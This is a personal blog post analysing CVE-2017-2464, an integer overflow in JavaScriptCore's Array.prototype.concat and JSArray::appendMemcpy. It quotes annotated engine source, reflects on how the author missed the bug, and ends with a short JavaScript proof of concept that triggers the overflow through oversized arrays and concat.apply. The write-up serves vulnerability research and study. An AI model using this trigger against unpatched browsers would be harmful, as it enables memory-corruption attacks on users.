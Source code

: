 ```yaml
---
layout: post
title: Analysis of CVE-2017-2464
date: 2021-01-12
permalink: /:title/
description: "yooo"
tags: [vulnerability research]
share: true
comments: false
status: ongoing
---
```


This is an attempt I made somewhere around April in 2019, when I was heavily interested in browser internals.

// git rev-list -1 --before="2017-01-20 12:00" master

| Target | Javascript Core |
| commit |     956c6759d161d678125b0b9b8128e3fe6bd37c69 |
| file |     jsc/I dont remember |


<pre>
function concatSlowPath()
{
    "use strict"; [[Why is this always used in exploits ?::lsn]]

    if (this == null)
        @throwTypeError("Array.prototype.concat requires that |this| not be null or undefined");

    var currentElement = @Object(this);

    var constructor; [[This block isn't too interesting,<br>it is used to get the constructor of the<br>object that called ".concat"::lsn]]
    if (@isArray(currentElement)) {
        constructor = currentElement.constructor;
        // We have this check so that if some array from a different global object
        // calls this map they don't get an array with the Array.prototype of the
        // other global object.
        if (@isArrayConstructor(constructor) && @Array !== constructor)
            constructor = @undefined;
        else if (@isObject(constructor)) {
            constructor = constructor.@speciesSymbol;
            if (constructor === null)
                constructor = @Array;
        }
    }

    // [2] concat can receive multiple arguments
    //     ie: "a".concat("b", "c")
    var argCount = arguments.length;
    var result;
    if (constructor === @Array || constructor === @undefined) [[non-array objects can too call concat, so before<br>proceeding any further, make sure 'result' is the<br>of the same type as *this::rsn]]
        result = @newArrayWithSize(0);
    else
        result = new constructor(0);
    
    var resultIsArray = @isJSArray(result);[[This will be later used to decide which path to take::rsn]]

    var resultIndex = 0;
    var argIndex = 0;

    do {
        let spreadable = @isObject(currentElement) && currentElement.@isConcatSpreadableSymbol;[[This is the codepath of interest<br>as the else clause explicitly<br>checks for overflows::lsn]]
        if ((spreadable === @undefined && @isArray(currentElement)) || spreadable) { 
            let length = @toLength(currentElement.length);
            if (resultIsArray && @isJSArray(currentElement)) { [[Again, this kind of overflow<br>can only be triggered with arrays::rsn]]
                @appendMemcpy(result, currentElement, resultIndex); [[appendMemcpy is probably safe,<br>though it is called in the wrong way::lsn]]
                resultIndex += length;
            } else {
                if (length + resultIndex > @MAX_SAFE_INTEGER)
                    @throwTypeError("length exceeded the maximum safe integer");
                for (var i = 0; i < length; i++) {
                    if (i in currentElement)
                        @putByValDirect(result, resultIndex, currentElement[i]);[[For non-array objects that can be iterated upon, follow<br>a slightly different road<br>@putByValDirect(values, index, argument);::rsn]]
                    resultIndex++;
                }
            }
        } else {
            if (resultIndex >= @MAX_SAFE_INTEGER)
                @throwTypeError("length exceeded the maximum safe integer");
            @putByValDirect(result, resultIndex++, currentElement);
        }
        currentElement = arguments[argIndex];
    } while (argIndex++ < argCount);

    result.length = resultIndex; [[what if the vunlerability consists in increasing resultIndex::rsn]]
    return result;
}
</pre>

<pre>
bool JSArray::appendMemcpy(ExecState* exec, VM& vm, unsigned startIndex, JSC::JSArray* otherArray)
{
    auto scope = DECLARE_THROW_SCOPE(vm);

    // I can only copy in the fast way
    if (!canFastCopy(vm, otherArray))
        return false;

    // A memcpy is being called. In order to do the copy,
    // everything from type to size must be the same. In
    // order to figure out how much mem to allocate, and
    // how to use it, it is necessary to know how the object
    // is layed out first.
    IndexingType type = indexingType();
    IndexingType copyType = mergeIndexingTypeForCopying(otherArray->indexingType());
    // Depending on the type of the array to be copied, take a different
    // path
    if (type == ArrayWithUndecided && copyType != NonArray) {
        if (copyType == ArrayWithInt32)
            convertUndecidedToInt32(vm);
        else if (copyType == ArrayWithDouble)
            convertUndecidedToDouble(vm);
        else if (copyType == ArrayWithContiguous)
            convertUndecidedToContiguous(vm);
        else {
            ASSERT(copyType == ArrayWithUndecided);
            return true;
        }
    } else if (type != copyType)
        return false;

    unsigned otherLength = otherArray->length();
    unsigned newLength = startIndex + otherLength;
    if (newLength >= MIN_SPARSE_ARRAY_INDEX)
        return false;

    // make sure the array is contiguous
    if (!ensureLength(vm, newLength)) {
        throwOutOfMemoryError(exec, scope);
        return false;
    }
    ASSERT(copyType == indexingType());

    if (type == ArrayWithDouble)
        memcpy(butterfly()->contiguousDouble().data() + startIndex, otherArray->butterfly()->contiguousDouble().data(), sizeof(JSValue) * otherLength);
    else
        memcpy(butterfly()->contiguous().data() + startIndex, otherArray->butterfly()->contiguous().data(), sizeof(JSValue) * otherLength);

    return true;
}
</pre>

// Feedback:
//
//  Both [?] were correct.
//  
//  -> Why did I not find the vulnerability ?
//
//     the lack of context in jsc's codebase
//     definitely made things harder. The
//     main reason i did not know
//
//     unsigned newLength = startIndex + otherLength
//
//     is a vulnerable thing, because i didn't connect
//     the memcpy call to the very short buffer. Had I
//     thought about how memcpy interacts with the length
//     of the buffer I should would have found it

// PoC
<pre>
var a = []; 
a.length = 0xffffff00;
var b = a.splice(0, 0x100000); // Undecided array

var args = [];
args.length = 4094;
args.fill(b);

var q = [];
q.length = 0x1000;
q.fill(7);

var c = a.splice(0, 0xfffef); //Shorter undecided array

args[4094] = c;
args[4095] = q;


b.concat.apply(b, args);
</pre>

[[***Changelog***<br/>
• 12/01/2021: Sidenotes <br/>
::rmn]]

